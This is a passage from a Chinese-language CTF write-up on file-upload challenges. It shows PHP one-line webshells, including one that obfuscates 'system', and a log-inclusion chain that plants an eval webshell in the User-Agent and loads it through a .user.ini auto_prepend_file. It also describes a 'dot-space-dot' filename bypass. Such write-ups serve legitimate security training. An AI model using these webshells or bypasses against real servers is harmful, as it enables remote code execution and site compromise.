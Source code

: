 再如：

```php
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

再如：

```php
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
```

![image-20230728121442185](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728121442185.png)

### [web169]日志包含

过滤了`<`，无法执行PHP代码，于是考虑**日志包含**

前端限制必须上传zip，且`file_content`需修改为`image/png`

同时在`user-agent`中写入一句话木马，`<?php eval（$_POST['cmd']);?>`

随后上传一个`.user.ini`文件，`auto_prepend_file=/var/log/nginx/access.log`

再上传一个`1.php`文件，内容随便写，因为`url/upload/`目录下没有文件，所以需要写一个文件来承接`.user.ini`

接着就可以访问`/url/upload/1.php`，然后rce或者用蚁剑连接

### [web170]日志包含

题解同上



**点+空格+点绕过**

> 某些情况下，源代码先是去除文件名前后的空格，再去除文件名最后所有的`.`，再通过strrchar函数来寻找`.`来确认文件名的后缀，但是最后保存文件的时候没有重命名而使用的原始的文件名，导致可以利用1.php. .（点+空格+点）来绕过

